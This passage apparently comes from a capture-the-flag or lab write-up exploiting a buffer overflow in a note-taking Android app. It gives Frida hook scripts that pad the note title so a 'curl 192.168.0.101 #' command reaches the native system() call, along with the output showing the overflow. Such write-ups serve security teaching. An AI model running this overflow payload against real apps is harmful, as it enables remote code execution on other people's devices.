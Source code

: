 ```js

        console.log(`Native parse is called: str=${title}`);
        this["parse"](title);
        return;
    };
});
```

### Explointg the application

With this code, when we add a note, the 101st element of the string is the character 'b', and in the output of the script, we see that we successfully override the stack and can control the value passed into the system function.

Output of the running app with Frida after adding a note:
```
 Native parse is called: str=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb
system  -> Args:  bog "Note added at $(date)"
```

Now, we just need to adjust our payload to achieve remote code execution.

```js
// hook.js
function intercept_nativeCall(lib,fun){
    let addr = Module.findExportByName(lib,fun);
    Interceptor.attach(addr, {
      onEnter: function (args) {
        console.log(fun," -> Args: ", args[0].readUtf8String())
      }
    })
  }

intercept_nativeCall("libc.so", "system")


Java.perform(function() {

    let MainActivity = Java.use("com.mobilehackinglab.notekeeper.MainActivity");
    MainActivity["parse"].implementation = function (title) {


        var command = "curl 192.168.0.101 #";
        title = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + command

        console.log(`Native parse is called: str=${title}`);
        this["parse"](title);
        return;
    };
});
```
